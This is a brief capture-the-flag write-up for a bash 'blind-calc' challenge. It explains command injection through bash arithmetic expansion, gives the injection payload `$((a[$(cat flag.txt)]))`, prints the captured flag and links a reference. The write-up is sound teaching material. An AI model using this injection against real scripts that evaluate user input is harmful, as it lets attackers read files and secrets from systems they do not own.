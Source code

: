 # blind-calc

Solved by: @arifpeycal

- Category: mainstream,bash,introductory
- Description: calculator using arithmetic expansion in bash

### Solution:

1. Command-injection inside `$((..))`
2. Payload for injection is `$((a[$(cat flag.txt)]))`

Flag: `jail{blind-calc_9c701e8c09f6cc0edd6}`

**References:** [https://book.jorianwoltjer.com/linux/linux-privilege-escalation/command-exploitation#injecting-commands-in-math](https://book.jorianwoltjer.com/linux/linux-privilege-escalation/command-exploitation#injecting-commands-in-math)





